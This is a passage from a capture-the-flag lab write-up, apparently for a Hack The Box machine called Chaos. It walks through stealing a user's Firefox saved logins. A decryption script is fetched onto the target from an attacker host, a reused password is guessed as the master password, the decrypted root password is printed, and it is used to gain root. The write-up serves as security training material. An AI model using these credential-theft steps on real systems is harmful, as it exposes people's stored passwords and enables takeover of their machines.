-rw------- 1 ayush ayush 92K Oct 27 2018 cert9.db
-rw------- 1 ayush ayush 362 Oct 27 2018 cert_override.txt
-rw------- 1 ayush ayush 170 Sep 29 2018 compatibility.ini
-rw------- 1 ayush ayush 809 Sep 29 2018 containers.json
-rw-r--r-- 1 ayush ayush 224K Oct 24 2018 content-prefs.sqlite
-rw-r--r-- 1 ayush ayush 512K Oct 27 2018 cookies.sqlite
-rw-r--r-- 1 ayush ayush 32K Oct 27 2018 cookies.sqlite-shm
-rw-r--r-- 1 ayush ayush 0 Oct 27 2018 cookies.sqlite-wal
drwx------ 3 ayush ayush 4.0K Oct 27 2018 crashes
drwx------ 3 ayush ayush 4.0K Oct 27 2018 datareporting
-rw-r--r-- 1 ayush ayush 167 Sep 29 2018 extensions.ini
-rw------- 1 ayush ayush 5.6K Oct 27 2018 extensions.json
-rw-r--r-- 1 ayush ayush 192K Oct 24 2018 formhistory.sqlite
drwx------ 3 ayush ayush 4.0K Sep 29 2018 gmp
-rw------- 1 ayush ayush 36K Oct 27 2018 key4.db
-rw-r--r-- 1 ayush ayush 1.3M Oct 11 2018 kinto.sqlite
-rw------- 1 ayush ayush 570 Oct 27 2018 logins.json
-rw-r--r-- 1 ayush ayush 3.7K Sep 29 2018 mimeTypes.rdf
drwx------ 2 ayush ayush 4.0K Oct 25 2018 minidumps
-rw-r--r-- 1 root root 0 Oct 27 2018 .parentlock
-rw-r--r-- 1 ayush ayush 96K Sep 29 2018 permissions.sqlite
-rw------- 1 ayush ayush 868 Sep 29 2018 pkcs11.txt
-rw-r--r-- 1 ayush ayush 10M Oct 27 2018 places.sqlite
-rw-r--r-- 1 ayush ayush 32K Oct 27 2018 places.sqlite-shm
-rw-r--r-- 1 ayush ayush 33K Oct 27 2018 places.sqlite-wal
-rw------- 1 ayush ayush 469 Sep 29 2018 pluginreg.dat
-rw------- 1 ayush ayush 12K Oct 27 2018 prefs.js
-rw-r--r-- 1 ayush ayush 43K Oct 11 2018 revocations.txt
drwx------ 2 ayush ayush 4.0K Oct 26 2018 saved-telemetry-pings
-rw------- 1 ayush ayush 17K Sep 29 2018 search.json.mozlz4
-rw-r--r-- 1 ayush ayush 0 Oct 27 2018 SecurityPreloadState.txt
-rw------- 1 ayush ayush 90 Oct 27 2018 sessionCheckpoints.json
drwx------ 2 ayush ayush 4.0K Oct 27 2018 sessionstore-backups
-rw-r--r-- 1 ayush ayush 5.3K Oct 27 2018 SiteSecurityServiceState.txt
drwxr-xr-x 5 ayush ayush 4.0K Oct 9 2018 storage
-rw-r--r-- 1 ayush ayush 512 Sep 29 2018 storage.sqlite
-rwx------ 1 ayush ayush 29 Sep 29 2018 times.json
-rw-r--r-- 1 ayush ayush 256K Oct 27 2018 webappsstore.sqlite
-rw-r--r-- 1 ayush ayush 32K Oct 27 2018 webappsstore.sqlite-shm
-rw-r--r-- 1 ayush ayush 0 Oct 27 2018 webappsstore.sqlite-wal
-rw------- 1 ayush ayush 1.1K Oct 27 2018 xulstore.json
The intersting files in here are logins.json and key4.db.
logins.json contains encrypted logins and key4.db contains encrypted keys:
https://support.mozilla.org/en-US/questions/1181061
https://github.com/unode/firefox_decrypt allows us to decrypt these files providing we know the master password.
Considering this is ayush's firefox profile, we could take a guess that their master password might be the same as their user login password - jiujitsu.
wget the firefox_decrypt.py python script to your attacking machine and server it to the target using SimpleHTTPServer:
root@kali:~/ctf/chaos/exploits# wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
--2019-05-18 17:33:50-- https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.16.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.16.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34618 (34K) [text/plain]
Saving to: ‘firefox_decrypt.py’
firefox_decrypt.py 100%[=====================================>] 33.81K --.-KB/s in 0.05s
2019-05-18 17:33:51 (724 KB/s) - ‘firefox_decrypt.py’ saved [34618/34618]
root@kali:~/ctf/chaos/exploits# ls
firefox_decrypt.py
root@kali:~/ctf/chaos/exploits# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
firefox_decrypt.py wants a profile, so I changed directory into the .mozilla directory where the bzo7sjt1.default profile is
ayush@chaos:~/.mozilla/firefox$ ls
bzo7sjt1.default 'Crash Reports' profiles.ini
wget firefox_decrypt.py from your attacking machine:
ayush@chaos:~/.mozilla/firefox$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
<com/unode/firefox_decrypt/master/firefox_decrypt.py
--2019-05-18 16:33:43-- https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... failed: Temporary failure in name resolution.
wget: unable to resolve host address ‘raw.githubusercontent.com’
ayush@chaos:~/.mozilla/firefox$ wget http://10.10.13.44:8000/firefox_decrypt.py
<ox$ wget http://10.10.13.44:8000/firefox_decrypt.py
--2019-05-18 16:34:27-- http://10.10.13.44:8000/firefox_decrypt.py
Connecting to 10.10.13.44:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 34618 (34K) [text/plain]
Saving to: ‘firefox_decrypt.py’
firefox_decrypt.py 100%[===================>] 33.81K 146KB/s in 0.2s
2019-05-18 16:34:27 (146 KB/s) - ‘firefox_decrypt.py’ saved [34618/34618]
Run firefox_decrypt.py:
ayush@chaos:~/.mozilla/firefox$ python3 firefox_decrypt.py
Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: jiujitsu
Website: https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
Remove the script so you don't spoil the game for others:
ayush@chaos:~/.mozilla/firefox$ rm firefox_decrypt.py
And check if this root password works?
ayush@chaos:~/.mozilla/firefox$ su root
Password: Thiv8wrej~
root@chaos:/home/ayush/.mozilla/firefox#
Nice :)
root@chaos:/home/ayush/.mozilla/firefox# cd ~
root@chaos:~# ls
root.txt
root@chaos:~# cat root.txt
4eca7...